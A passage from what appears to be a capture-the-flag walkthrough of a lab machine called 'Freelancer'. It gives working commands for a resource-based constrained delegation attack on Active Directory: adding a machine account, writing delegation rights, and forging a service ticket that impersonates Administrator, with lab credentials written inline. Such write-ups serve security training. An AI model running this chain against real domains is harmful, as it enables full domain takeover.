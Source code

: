 We can `exploit` this permission now.   

We add a computer using `addcomputer.py`.  

```bash
faketime "$(ntpdate -q $ip | cut -d ' ' -f 1,2)" addcomputer.py 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199' -dc-ip 10.10.11.5
```

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241106235419.png" alt="1" style="width:700px; height:auto;">
<br/>

`Delegate` the account.   

```bash
rbcd.py -delegate-from 'DESKTOP-JKLYP2QJ$' -delegate-to 'dc$' -dc-ip 10.10.11.5 -action write 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
```

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241106235705.png" alt="1" style="width:700px; height:auto;">
<br/>

Now requet a `ticket` to impersonate the `Administrator`.   

```bash
 faketime "$(ntpdate -q $ip | cut -d ' ' -f 1,2)" getST.py -spn 'cifs/dc.freelancer.htb' -impersonate Administrator -dc-ip 10.10.11.5 freelancer.htb/DESKTOP-JKLYP2QJ$:IiE91RrRr
SlYkifXGLayBQV9KguhQRM8
```

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241107000122.png" alt="1" style="width:700px; height:auto;">
<br/>
